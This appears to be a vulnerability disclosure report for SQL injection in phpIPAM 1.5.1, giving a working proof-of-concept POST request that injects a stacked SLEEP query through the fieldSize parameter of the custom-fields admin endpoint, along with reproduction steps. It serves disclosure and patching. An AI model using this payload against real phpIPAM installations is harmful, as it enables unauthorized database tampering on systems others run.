

# Vulnerability Type

SQL Injection

# Description

SQL Injection in GitHub repository phpipam/phpipam prior to v1.5.2.

# PoC Report

 ## Environment Setup

 - Software Link: https://github.com/phpipam/phpipam/
 - Version: 1.5.1
 - Tested on: Windows 10

 ## Exploit Description

The `fieldSize` parameter is vulnerable to SQL injection due to insufficient filtering, and exploitation requires satisfying multiple path constraints within the application flow.

 ## Steps to Reproduce

  1. Login as an admin user.
   2. Intercept and send the malicious request using a web proxy tool such as Burp Suite, ensure it includes a valid session cookie and csrf token.
   3. Observe the result:



 ## Proof Of Concept
```
POST /app/admin/custom-fields/edit-result.php HTTP/1.1
Host: phpipam
Cookie: PHPSESSID=<valid_session_id>; csrf_cookie=<valid_csrf_token>
Content-Type: application/x-www-form-urlencoded

csrf_cookie=<valid_csrf_token>&action=add&name=custom_sqli_test&fieldType=enum&fieldSize=0)%3B+SELECT+SLEEP(10)%3B+--+&table=devices&Comment=sql_poc&NULL=YES

**Prerequisites:**
1. Valid authenticated session (PHPSESSID cookie)
2. Valid CSRF token (obtain from `/admin/custom-fields/` page first)
3. Target table must exist (default 'devices' table used)
4. Field type must be enum/set to reach vulnerable code path

**Manual Test Steps:**
1. Login to phpIPAM
2. Visit `/admin/custom-fields/` to get CSRF token
3. Send POST request with above payload

**Note:** Replace `<valid_session_id>` and `<valid_csrf_token>` with actual values from authenticated session. The `fieldSize` parameter injects SQL through enum/set type definition context.
```

